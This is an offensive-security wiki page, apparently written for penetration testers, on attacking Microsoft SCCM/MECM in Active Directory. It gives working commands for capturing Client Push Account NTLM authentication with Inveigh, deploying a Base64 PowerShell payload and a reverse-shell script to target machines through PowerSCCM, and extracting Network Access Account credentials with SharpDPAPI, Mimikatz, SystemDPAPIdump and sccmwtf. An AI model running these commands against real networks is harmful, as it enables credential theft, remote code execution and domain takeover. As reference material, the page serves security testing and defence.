 # SCCM / MECM

## Theory

The **System Center Configuration Manager** (SCCM), now known as **Microsoft Endpoint Configuration Manager** (MECM), is a software developed by Microsoft to help system administrators manage the servers and workstations in large Active Directory environments. It provides lots of features including remote control, patch management, task automation, application distribution, hardware and software inventory, compliance management and security policy administration.

When SCCM is installed in an Active Directory, the clients can be deployed on the workstations by six different ways:

* Client push installation
* Software update-based installation
* Group Policy installation
* Manual installation
* Logon script installation
* Package and program installation

<details>

<summary>Client push installation</summary>

The first way of deploying SCCM is the **Client push installation** method, which is the default one and the least secure.&#x20;

This installation will use "client push accounts". They are service acounts with local administrative rights on the assets where SCCM will have to deploy some stuff. The system administrator creates groups of endpoints and for each of those, one "client push account". For each group, only one "client push account" can authenticate with administrator rights on the assets of this group. Thus, if an account is compromised, only the members of the corresponding group can be compromised in turn.

When the SCCM deployment is launched, it will basically try to authenticate with each client push accounts on each asset, and if the authentication fails, SCCM will try the next account in line. When the authentication succeeds, it moves to the following asset, and so on until the deployment is complete.

SCCM deployment via **Client push installation** is service accounts credentials spraying in a nutshell.

</details>

## Practice

### Client push installation

With a compromised machine in an Active Directory where SCCM is deployed via **Client Push Accounts** on the assets, it is possible to have the "Client Push Account" authenticate to a remote resource and, for instance, retrieve an NTLM response (i.e. [NTLM capture](ntlm/capture.md)). The "Client Push Account" usually has local administrator rights to a lot of assets.

In some case, the "Client Push Accounts"  could even be part of the Domain Admins group, leading to a complete takeover of the domain.

In order to retrieve the Client Push Account's authentication, all local admins must be removed from the compromised host, and a listener can be started on it with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (C# or Powershell).

```powershell
# 1. Remove all the local Administrators on the compromised machine
net user <username> /delete

# 2. Listen for authentication with Inveigh
.\Inveigh.exe -Challenge 1122334455667788
```

Once the capturing/relaying listeners are started, the tester can wait for the Client Push Accounts to authenticate automatically. Hopefully, NTLMv1 will be used, allowing for easier NTLM cracking. There are other alternatives to cracking the response, like [relaying the authentication](ntlm/relay.md).

### Applications and scripts deployment

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.&#x20;

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

### SCCM credentials extraction with DPAPI

When non-domain joined computers need to retrieve software from a SCCM server, the SCCM endpoint will deploy **Network Access Accounts (NAA)** on them. The NAAs do nothing on the hosts but access resources across the network. Normally, the NAA account [should](https://docs.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/accounts#network-access-account) be configured with the least privilege and does not have interactive logon rights. But it appears that sometimes domain accounts are used for this task.

The NAA policy, including the NAA's credentials, is sent by the SCCM server and stored on the client machine, encrypted via DPAPI with SYSTEM's master key. With a SYSTEM (i.e. local admin) access on the target, it is possible to decipher the policy and retrieve the credentials.

{% hint style="info" %}
It appears that even after changing the NAA account or uninstalling the SCCM client, the credentials are still present on the disk.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to decipher the WMI blob via DPAPI and retrieve the stored credentials. Additionally, the tool can also extract SYSTEM DPAPI credentials.

```bash
SystemDPAPIdump.py -creds -sccm 'DOMAIN/USER:Password'@'target.domain.local'
```
{% endtab %}

{% tab title="Windows" %}
With an elevated session on the target machine, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used to extract the SCCM credentials on the host.

```powershell
.\SharpDPAPI.exe SCCM
```

The tool [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for the same purpose.

```batch
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```
{% endtab %}
{% endtabs %}

### Network Access Account deobfuscation

A computer account has the ability to register itself with the SCCM server and request the encrypted NAA policies, decrypt them, deobfuscate them and retrieve the NAA's credentials in them.

The first step consists in controlling a computer account. One can be [created](domain-settings/machineaccountquota.md#create-a-computer-account) if the [Machine Account Quota](domain-settings/machineaccountquota.md) attribute is greater than 0.

{% content-ref url="domain-settings/machineaccountquota.md" %}
[machineaccountquota.md](domain-settings/machineaccountquota.md)
{% endcontent-ref %}

#### Enroll and retrieve the NAA policy

The SCCM attack can then be performed with [sccmwtf](https://github.com/xpn/sccmwtf) (Python). The new client to spoof doesn't need to be the previously created computer account (useful if you only have an existing computer account already enrolled).

The positional arguments are as follows:

* Spoof Name&#x20;
* Spoof FQDN&#x20;
* Target SCCM&#x20;
* Computer account username&#x20;
* Computer account password

{% code overflow="wrap" %}
```bash
sccmwtf.py "fakepc" "fakepc.domain.local" 'SCCM-Server' 'DOMAIN\ControlledComputer$' 'Password123!'
```
{% endcode %}

{% hint style="warning" %}
The tool author warns not to use this script in production environments.
{% endhint %}

#### Retrieve the credentials

Then, on a Windows machine, the two blobs (`NetworkAccessUsername` and `NetworkAccessPassword`) can be retrieved in plaintext by indicating only the hexadecimal part.

```powershell
.\policysecretunobfuscate.exe <blob_hex_1>
.\policysecretunobfuscate.exe <blob_hex_2>
```

## Resources

{% embed url="https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts" %}

{% embed url="https://enigma0x3.net/2016/02/" %}

{% embed url="https://docs.microsoft.com/en-us/powershell/module/configurationmanager/?view=sccm-ps" %}

{% embed url="https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9" %}

{% embed url="https://blog.xpnsec.com/unobfuscating-network-access-accounts/" %}
